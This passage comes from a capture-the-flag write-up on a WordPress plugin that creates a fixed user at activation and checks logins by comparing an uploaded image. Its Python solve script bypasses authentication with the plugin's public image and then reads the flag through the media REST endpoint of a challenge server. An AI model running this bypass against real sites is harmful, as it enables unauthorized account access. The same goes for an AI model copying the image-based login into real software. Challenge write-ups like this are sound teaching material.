```php

        }
    }
    return false;
}
```

The plugin will automatically create a user with the following code:

```php
register_activation_hook(__FILE__, 'create_user_and_assign_image');

function create_user_and_assign_image() {
    // Step 1: Create the 'johnstilton1' user if not already exists
    $how_many = 11;
    $username = 'johnstilton1'; // The fixed username
    $email = 'johnstilton1@example.com'; // Change the email if needed
...snip...
```

## Exploitation

To solve this challenge, we just need to authenticate as a user using the image from the real server, which we can access at `/wp-content/plugins/add-user/pp.png`. After that, we can check the path of the flag media by accessing `/wp-json/wp/v2/media/`.

## Obtaining the Flag

Here is my solve script to solve the challenge:

```python
import httpx
import asyncio

# URL = "http://localhost:9047"
URL = "http://3.14.248.34:9047/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)
    def say_cheese_handle_image_login(self, imagelogin, username, image):
        return self.c.post("/wp-admin/admin-ajax.php", data={
            "username": username,
        }, files={
            "image": image,
        }, params={
            "action": "say_cheese_handle_image_login",
            "imagelogin": imagelogin,
        })

class API(BaseAPI):
    ...

async def main():
    api = API()
    image = await api.c.get("wp-content/plugins/add-user/pp.png")
    res = await api.say_cheese_handle_image_login(True, "johnstilton1", ("image", image.content, "image/png"))
    # print(res.text)
    # print(res.status_code)
    # print(res.headers)
    res = await api.c.get("/wp-json/wp/v2/media/")
    print(res.json()[0]['guid']['rendered'])

```